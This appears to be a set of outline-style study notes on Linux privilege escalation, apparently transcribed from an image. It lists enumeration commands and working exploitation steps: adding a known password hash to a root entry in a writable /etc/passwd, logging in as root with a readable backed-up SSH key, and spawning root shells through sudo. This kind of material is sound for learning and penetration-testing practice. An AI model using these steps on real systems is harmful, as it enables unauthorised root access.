 				- $ ./lse.sh -l 1 -i
				- $ find /etc -maxdepth 1 -writable -type f
				- $ find /etc -maxdepth 1 -readable -type f
				- $ find / -executable -writable -type d 2> /dev/null
				- root:x:0:0:root:/root:/bin/bash

					- The x instructs to look for the password hash in the /etc/shadow
					- root::0:0:root:/root:/bin/bash

						- In some Linux you can delete the x = no password

			- Exploitation

				- World writable?

					- $ openssl passwd "password"
					- Add hash to second position

						- root:L9yLGxncbOROc:0:0:root:/root:/bin/bash

					- $ su
					- newroot:L9yLGxncbOROc:0:0:root:/root:/bin/bash
					- $ su newroot

		- Backups

			- Detection

				- $ ./lse.sh -i
				- $ find /etc -maxdepth 1 -writable -type f
				- $ find /etc -maxdepth 1 -readable -type f
				- $ find / -executable -writable -type d 2> /dev/null
				- $ ls -la /home/user
				- $ ls -la /
				- $ ls -la /tmp
				- $ ls -la /var/backups

			- Exploitation

				-  World readable?

					- $ head -n 1 /.ssh/root_key
					- $ grep PermitRootLogin /etc/ssh/sshd_config
					- PermitRootLogin yes?

						- # chmod 600 root_key
						- # ssh -i root_key root@$IP

	- Sudo

		- Commands

			- $ sudo PROGRAM
			- $ sudo –u USERNAME PROGRAM
			- $ sudo -l

		- Methods

			- $ sudo su
			- $ sudo -s
			- $ sudo -i
			- $ sudo /bin/bash
			- $ sudo passwd
